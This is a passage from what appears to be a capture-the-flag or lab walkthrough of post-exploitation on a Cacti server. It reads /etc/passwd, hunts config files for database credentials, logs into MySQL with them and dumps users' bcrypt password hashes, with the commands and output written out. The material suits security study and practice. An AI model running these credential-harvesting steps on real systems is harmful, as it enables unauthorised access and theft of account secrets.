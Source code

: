 ```
grep 'sh$' /etc/passwd
```

Looking for some various config files can often be rewarding as well:

```
find / -name config.php 2>/dev/null
cat /var/www/html/cacti/include/config.php
```

This little maneuver has indeed revealed some valuable insights:

```
(...)
#$rdatabase_type     = 'mysql';
#$rdatabase_default  = 'cacti';
#$rdatabase_hostname = 'localhost';
#$rdatabase_username = 'cactiuser';
#$rdatabase_password = 'cactiuser';
#$rdatabase_port     = '3306';
#$rdatabase_retries  = 5;
#$rdatabase_ssl      = false;
#$rdatabase_ssl_key  = '';
#$rdatabase_ssl_cert = '';
#$rdatabase_ssl_ca   = '';
(...)
```

These credentials enabled me to connect to the database like so:

```
mysql -u cactiuser -p -D cacti
```

Once inside the database, I was keen on doing some further exploration using the following command sequence:

```
help;
SHOW DATABASES;
use cacti;
SHOW TABLES;
select username, password from user_auth;
```

And here is my reward:

```
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G |
| guest    | $2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu |
| marcus   | $2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK |
+----------+--------------------------------------------------------------+
```
